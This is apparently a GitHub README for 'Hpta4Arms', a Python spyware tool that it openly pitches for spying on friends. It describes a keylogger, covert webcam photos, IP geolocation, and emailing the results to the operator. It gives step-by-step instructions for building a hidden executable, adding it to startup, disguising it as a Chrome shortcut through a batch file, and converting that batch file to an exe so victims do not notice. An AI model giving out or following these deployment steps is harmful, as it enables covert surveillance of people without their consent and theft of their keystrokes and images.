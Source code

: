 #Hpta4Arms 
is a buggy tool used to spy on your friends it consists of 4_MAIN_ARMs <br>
First Arm : is Key logger that will save your key logs to a file called '''log.in''' <br>
Second Arm : will take photo from your laptop camera and save it in a file called '''logg.png'''<br>
Third Arm : will detect your location using this API freegeoip.net <br>
Fourth Arm : will package the last three arms and send them to your email address that you provide<br>
#Working Technique
first thing this is a spying tool so it has to work secretly in the background and run every time the computer is restarting and that is exaclly what hide()and addStartup()
do so let's start from the beginning : <br>
1- Hpta4Arms will hide itself and added to your start-up apps with the value of true <br>
2- and after that it will open afile called log.in and write a START:: word at the beginning it is a mark for your logs starting<br>
3- it will take a photo and save it to a file called logg.jpg this file will delete himself after it has been sent to the email address<br> 
4- it will detect your location (Lat & lng)--(this might not be accurate because of the API it will detect your first public IP and return it's location)<br>
5- it will send an email to the address you provided with this plain text<br>
'''
My name is YOUR_FRIEND'S_PC_NAME 
I am at YOUR_FRIEND'S_LOCATION locate me on the map : http://www.whatsmygps.com/
'''
this message will have two files attached the log.in (Logs Text file) and logg.jpg (photo that has been captured from your friend cam)<br>
![Hpta4Arms](https://github.com/GardiansLab/Hpta4Arms/Capture.PNG)
#Install
first you need to install the python packages to help in building your exe files you can plant it in your friend PC so let's go 
1- you need to install the packages from the requirements.txt file using this command  (navigate to the tool folder using your CMD)
'''
pip install requirement.txt
''' 
2- you need to specify the from and to email address to can send the email 
open 'Hpta4Arms.py' and goto line 108 & 109 and change the value to your from and to email addresses
Note :you can use the same email to send the message from the same email.<br>
3- go to line 144 and type your password 
4- here im using hotmail so in line 142 iam using smtp.live.comif you are using another email i.e gmail,yahoo,...etc you should provide your correct protocol
'''
smtplib.SMTP('smtp.live.com', 587)
'''
5-after that you need to get your exe file to prevent the victim from discovering your email and password if he discover the trick so you have pyinstaller then go to your CMD and run 
'''
pyinstaller Hpta4Arms.py
'''
6-two files will be created `dist` and `build` navigate to "dist/Hpta4arms/Hpta4arms.exe" you friend has to run this file to enables you spying on him
7- check the "Plant the tool in your friend PC" section to hide the tool with another software . 
#Plant the tool in your friend PC
now you have the exe file if you run it a cmd will open and close in a second (it's not closing it's hiding :D )
so more on hiding the tool without discovering it is to create a batch file that run a specific software and the tool in the same time
,most of people are using chrome so i will create a batch file that will run chrome and Hpta4Arms together so, go ahead and create a file called launch.bat
and paste the code in launch.bat in it . 
if your friend is using another software replace third line with the path of your friend's favourite software (make sure it is the exe file)
then go to desktop and right click and create shortcut and add the path to this batch file and rename the file chrome so your friend now will 
open this to start working on chrome and the tool is starting in the background 
#Give me more
let's suppose your friend is smart he will figure out that this batch file might be buggy so he avoid running it so now you will convert this batch file to exe file 
doing the same task go to bat2exe folder you will find a file called how_to_run.txt to convert any batch file to exe file 
#Examples
in the examples folder you will find testing for each arm alone feel free to edit them and made a pull request if there isn't anything 
working right with you contact me at ahmedkhaled36@hotmail.com

#license
The package is open-sourced software licensed under the [MIT license].